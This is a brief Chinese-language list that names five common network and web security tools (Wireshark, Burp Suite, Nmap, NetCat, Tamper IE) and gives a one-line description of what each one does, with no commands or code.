WireShark	网络协议抓包与分析工具

Burp suite	神器，可以对浏览器与Web服务器之间的通信数据进行编辑修改

Nmap	端口扫描，服务识别，操作系统指纹识别

NetCat	端口连接，数据提交

Tamper IE	HTTP数据包修改、转发工具（Firefox插件）

、